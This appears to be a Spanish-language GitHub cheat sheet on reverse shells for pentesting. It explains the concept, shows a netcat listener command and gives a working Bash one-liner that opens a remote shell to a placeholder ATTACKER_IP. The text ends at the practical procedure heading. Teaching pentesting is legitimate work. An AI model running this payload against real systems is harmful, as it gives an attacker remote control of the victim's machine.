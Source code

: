 # 🐚 Reverse Shell Cheat Sheet

Guía rápida para comprender, generar y utilizar reverse shells en entornos de pentesting.

---

## 📚 Tabla de contenidos

- [🎭¿Qué es una reverse shell?](#que)
- [🔄Proceso típico](#proceso)
- [🖥️Ejemplo de reverse shell en Bash](#ejemplooo)
- [🛠️Reverse shell: procedimiento práctico](#reverse)
- [🌐Recursos para encontrar o generar reverse shells](#recursos)
- [🧠 Tips y buenas prácticas](#tips)
  - [Uso de `bash -c`](#uso)
  - [Envío de reverse shell a través de una URL (URL encoding)](#envio)
- [📝Recomendaciones adicionales](#recomendaciones)
-  [📂Subir reverse en PHP (si la página permite subida de archivos)](#subir)

---
<a name="que"></a>
## 🎭 ¿Qué es una reverse shell?

Una **reverse shell** es una técnica utilizada principalmente en **pruebas de penetración (pentesting)** para obtener acceso remoto a un sistema comprometido.  
Permite al atacante controlar el sistema víctima mediante una conexión saliente desde la víctima hacia el atacante.  
De esta forma se pueden evadir restricciones de firewall que bloquean conexiones entrantes.

---
<a name="proceso"></a>
## 🔄 Proceso típico

1. El atacante configura un servidor a la escucha (por ejemplo, con `nc -lvp 4444` o herramientas como Metasploit).
2. El atacante logra ejecutar código en la víctima (por ejemplo, mediante una inyección o exploit).
3. Ese código en la víctima abre una conexión de red hacia el atacante (por ejemplo, a la IP del atacante en el puerto 4444) y redirige la shell a través de esa conexión.
4. El atacante recibe un **prompt de shell** interactivo de la máquina víctima.

---
<a name="ejemplooo"></a>
## 🖥️ Ejemplo de reverse shell en Bash

```bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

---
<a name="reverse"></a>
## 🛠️ Reverse shell: procedimiento práctico
